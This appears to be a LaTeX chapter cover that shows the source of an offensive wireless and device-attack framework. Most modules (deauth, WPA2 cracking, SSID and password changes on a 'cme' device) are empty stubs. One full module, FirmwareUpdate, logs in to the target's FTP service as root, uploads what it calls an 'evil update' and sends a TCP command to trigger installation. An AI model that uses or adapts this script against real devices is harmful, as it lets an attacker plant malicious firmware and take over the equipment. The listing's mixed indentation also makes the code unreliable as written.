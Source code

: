 \begin{chaptercover}{Framework}
\begin{center}
\begin{lstlisting}
class FindTargets(Module):
	path = "scanning/wifi"
	
	def run(self):
		pass


class Deauth(Module):
	path = "auxiliary/wifi"


class MonitorMode(Module):
    path = "auxiliary/wifi"


class Wpa2pskCrack(Module):
    path = "auxiliary/wifi"


class ChangeDatetime(Module):
    path = "exploits/cme"


class ChangeSsid(Module):
    path = "exploits/cme"


class ChangePassword(Module):
    path = "exploits/cme"


class PowerOff(Module):
    path = "exploits/cme"


class GetSysParam(Module):
    path = "exploits/cme"


class StopVideo(Module):
    path = "exploits/cme"


import socket
import time
from ftplib import FTP

class FirmwareUpdate(Module):
    path = "exploits/cme"
    def run(self):
    	self.logger.info("Starting an FTP session...")
        ftp = FTP('192.168.100.1', 2121)
    	self.logger.debug("Authenticating...")
        ftp.sendcmd("USER root")
        ftp.sendcmd("PASS *")
        ftp.sendcmd("SYST")
        ftp.sendcmd("PWD")
        ftp.sendcmd("TYPE I")
        ftp.sendcmd("CWD /")
        ftp.sendcmd("PASV")
    	self.logger.info("Pushing an evil update...")
        with open("0.7.15.zip", 'rb') as f:
	        ftp.storbinary("STOR 0.7.15.zip", f)
        ftp.quit()
    	self.logger.info("Triggering update...")
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(("192.168.100.1", 4646))
        s.send(b'{"CMD" : 71,"PARAM" : "0.7.15"}')
        time.sleep(3)
        self.logger.success("Target updated !")
\end{lstlisting}
\end{center}



\end{chaptercover}
